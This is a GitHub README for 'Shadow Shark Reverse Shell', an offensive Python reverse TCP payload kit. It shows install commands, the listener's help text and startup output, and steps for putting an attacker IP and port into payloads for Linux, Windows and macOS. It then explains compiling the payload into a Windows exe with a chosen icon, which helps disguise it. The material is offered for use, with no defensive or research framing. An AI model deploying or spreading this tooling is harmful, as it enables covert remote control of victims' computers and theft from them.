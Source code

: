 # Shadow Shark Reverse Shell 
A full fledged reverse TCP payload written in pure python3.

## Installation
### Debian
```
$ sudo apt-get install python3 git
$ cd /opt
$ sudo git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
$ cd ShadowSharkReverseShell/
$ sudo chmod +x ShadowShark
$ sudo cp ShadowShark /usr/bin
```
### Arch
```
$ sudo pacman -S python git
$ cd /opt
$ git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
$ cd ShadowSharkReverseShell/
$ sudo chmod +x ShadowShark
$ sudo cp ShadowShark /usr/bin
```

## Usage
### ShadowShark.py
```
$ ShadowShark --help

	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
	                                     `mMMMMMMM``````````````.sNMMh
	                                      -mMMMMMM.               .smMy`
	                                       .yMMMMMh`                `:ys.
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
usage: ShadowShark.py [-h] -lh LHOST -lp LPORT -e ENCRYPTION

This tool is a full fledged reverse TCP handler used to interact with Shadow
Shark payloads. Created by Mr. Shark Spam Bot.

optional arguments:
  -h, --help            show this help message and exit
  -lh LHOST, --lhost LHOST
                        Your IP address.
  -lp LPORT, --lport LPORT
                        The port to listen for connections on.
  -e ENCRYPTION, --encryption ENCRYPTION
                        The encryption used for sent and recieved data.
$ ShadowShark --lhost 0.0.0.0 --lport 8080 --encryption hex

	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
	                                     `mMMMMMMM``````````````.sNMMh
	                                      -mMMMMMM.               .smMy`
	                                       .yMMMMMh`                `:ys.
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
[*] A reverse TCP handler on 0.0.0.0:8080 has successfully started...
```
### ShadowSharkPayload.py
This payload can run on Linux, Windows, and MacOS. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### UnixPayload.py
This payload can run on any Unix based system. To configure the payload go to line 35 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### WindowsPayload.py
This payload can run on any Windows system. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### Compile.py
This compilation script can only be run on a windows machine or by using wine. To configure the compilation script go to line 14 and replace ICON with the icon file you want your exe file to have to have. To do this make sure that the ShadowSharkPayload.py script, your icon file, and the Compile.py script are in the same folder and that py2exe is installed.
```
# First install python3 on your windows machine or wine environment.
$ pip install py2exe
$ python Compile.py py2exe
```
